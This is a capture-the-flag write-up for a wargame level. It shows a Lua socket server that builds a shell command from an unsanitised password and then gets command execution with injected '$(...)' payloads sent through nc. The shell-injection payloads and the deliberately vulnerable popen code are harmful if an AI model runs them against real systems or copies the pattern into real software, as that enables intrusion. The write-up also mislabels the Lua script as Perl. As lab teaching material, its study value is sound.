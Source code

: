 # Level 11

## Initial Context

- A single file: `level11.lua`

## Solving the Challenge

### Analyzing

There is only a single CGI perl script:

```perl
$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

#### Reverse approach

The program seems to ask for a password, and then compare it with a SHA1.

Using Google's first search result, [md5hashing.net](https://md5hashing.net/hash/sha1/f05d1d066fb246efe0c6f7d095f909a7a0cf34a0) has a match.

![Match](images/match.png)

But using it as the `flag11`'s password does not works.

#### Concat approach

The program concat the password without doing any sanitization.

```perl
io.popen("echo "..pass.." | sha1sum", "r")
```

So by sending a subshell, we should be able to execute a command. But since everything is piped to a `sha1sum` command, we need to find a way to write in a file the result. That why `tee` is used: it can write the input it gets to a file and to the standard output. After that, we can simply read what he wrote in the file.

```bash
$ echo '$(id) | tee /tmp/level11' | nc 127.0.0.1 5151
Password: Erf nope..
$ cat /tmp/level11
uid=3011(flag11) gid=3011(flag11) groups=3011(flag11),1001(flag)
```

Confirmed! Now the `getflag` command:

```bash
$ echo '$(getflag) | tee /tmp/level11' | nc 127.0.0.1 5151
Password: Erf nope..
$ cat /tmp/level11
Check flag.Here is your token : ....
```